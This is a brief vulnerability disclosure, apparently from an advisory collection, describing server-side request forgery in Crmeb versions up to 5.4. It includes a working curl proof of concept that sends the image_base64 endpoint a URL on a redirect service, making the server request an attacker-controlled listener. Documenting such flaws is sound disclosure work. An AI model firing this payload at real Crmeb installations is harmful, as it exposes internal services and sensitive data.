 ### Crmeb

- **Application**: Crmeb<= 5.4
- **Threat Impact**: Sensitive data leakage
- **POC**:
  1. Listen on 8888 on server side
  1. `curl -X POST  "http://127.0.0.1:8011/api/image_base64" -d "image=https://ssrf.localdomain.pw/img-without-body/301-http-127.0.0.1:8888-.i.jpg" -d "code=https://picsum.photos/200.jpg?url=https://mp.weixin.qq.com/cgi-bin/showqrcode"`
  1. Receive a request on server side. 

